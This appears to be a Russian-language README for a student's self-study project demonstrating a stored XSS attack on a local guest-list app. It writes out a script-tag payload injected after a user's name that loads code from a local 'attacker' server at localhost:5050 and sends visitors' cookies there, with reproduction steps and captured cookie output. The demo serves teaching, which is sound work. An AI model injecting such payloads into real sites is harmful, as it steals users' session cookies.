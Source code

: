 # web
Автор: Конев Денис

## Описание
самостоятельна работа: пример XSS атаки

## Использование
Пользыватели вводят своё имя и могут увидеть имена других пользывателей. При этом, нехороший человек может ввести вместе с именем и скрипт, который не будет виден но будет выполнятся, отправляя cookie пользывателей злаумышлиникам. Для этого он вводит такой скрипт после имени: 
<script src="http://localhost:5050/name.js"></script>
В результате все пользываетели которые решили посмотреть список гостей, отправят ссвои cookie злаумышлиникам, сами того не зная.

## Комментарии
localhost:5050 это сервер злоумышленника.
выполняем следующие действия для проверки работы:
- запускаем оба сервера
- открываем браузер в режиме Инкогнито (чтобы cookie были пустыми в самом начале)
- делаем запросы:
1) http://localhost:5005/form и вводим там любое имя в форму и отправляем
2) http://localhost:5005/form и вводим следующие: Имя<script src="http://localhost:5050/name.js"></script>
3) http://localhost:5005/form и вводим что угодно, и мы увидим, что серевер злаумышлинников получил cookie
4) http://localhost:5005/echo?message=Hello тем самым изменим cookie в нашем браузере (cookie не создаются рандомно, а одни если мы сходим на /form и другие если на echo?message=...)
5) http://localhost:5005/get?username=NAME тем самым мы не сменим cookie и увидим список посетителей, а значит, отправим наши cookie.
- Мы видим в консоли сервера злоумышленника:
до 4) login get-successfully-cookie-secretum
полсе 4) login get-successfully-cookie-secretum; login=ok-echo
